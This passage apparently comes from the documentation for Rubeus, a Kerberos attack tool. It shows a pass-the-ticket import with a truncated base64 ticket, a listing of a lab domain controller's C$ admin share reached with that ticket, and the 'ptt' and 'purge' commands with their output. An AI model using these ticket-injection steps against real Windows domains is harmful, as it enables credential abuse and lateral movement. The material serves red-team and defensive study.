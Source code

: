           doIGujCCBragAwIBBaE...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Temp\tickets>dir \\primary.testlab.local\C$
     Volume in drive \\primary.testlab.local\C$ has no label.
     Volume Serial Number is A48B-4D68

     Directory of \\primary.testlab.local\C$

    03/05/2017  05:36 PM    <DIR>          inetpub
    08/22/2013  08:52 AM    <DIR>          PerfLogs
    04/15/2017  06:25 PM    <DIR>          profiles
    08/28/2018  12:51 PM    <DIR>          Program Files
    08/28/2018  12:51 PM    <DIR>          Program Files (x86)
    08/23/2018  06:47 PM    <DIR>          Temp
    08/23/2018  04:52 PM    <DIR>          Users
    08/23/2018  06:48 PM    <DIR>          Windows
                   8 Dir(s)  40,679,706,624 bytes free


## ptt

The **ptt** action will submit a /ticket (TGT or service ticket) for the current logon session through the LsaCallAuthenticationPackage() API with a KERB_SUBMIT_TKT_REQUEST message, or (if elevated) to the logon session specified by /luid:X. Like other /ticket:X parameters, the value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk.

    c:\Rubeus>Rubeus.exe ptt /ticket:doIFmj...(snip)...

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.0.0


    [*] Action: Import Ticket
    [+] Ticket successfully imported!

**Note that the /luid parameter requires elevation!**


## purge

The **purge** action will purge all Kerberos tickets from the current logon session, or (if elevated) to the logon session specified by /luid:X.

    C:\Temp\tickets>Rubeus.exe purge

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
